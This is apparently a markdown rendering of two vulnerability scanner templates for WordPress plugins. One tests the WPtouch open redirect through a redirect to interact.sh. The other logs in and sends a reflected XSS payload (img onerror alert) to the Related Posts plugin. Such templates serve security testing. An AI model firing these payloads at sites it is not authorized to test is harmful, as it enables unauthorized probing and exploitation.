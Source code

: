 - WordPress WPtouch plugin 3.x contains an open redirect vulnerability. The plugin fails to properly sanitize user-supplied input. An attacker can redirect a user to a malicious site and possibly obtain sensitive information, modify data, and/or execute unauthorized operations.

- severity - medium
- tags - wp-plugin,redirect,wordpress

## Requests

- Method - GET

### URL

- {{BaseURL}}/?wptouch_switch=desktop&redirect=https://interact.sh/

### Matchers

**Type - regex**

- regex
  1. (?m)^(?:Location\s*?:\s*?)(?:https?://|//)(?:[a-zA-Z0-9\-_\.@]_)interact\.sh._$
- part - header

---

# WordPress Related Posts \<= 2.1.1 - Cross Site Scripting

## Description

- WordPress Related Posts plugin before 2.1.1 contains an Reflected XSS via rp4wp_parent

- severity - medium
- tags - wordpress,wp,wp-plugin,xss,relatedposts,authenticated

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

log={{username}}&pwd={{password}}&wp-submit=Log+In

```

### Step - 2

```
GET /wp-admin/admin.php?page=rp4wp_link_related&rp4wp_parent=156x%27%22%3E%3Cimg+src%3Dx+onerror%3Dalert%28document.domain%29%3E HTTP/1.1
Host: {{Hostname}}

```
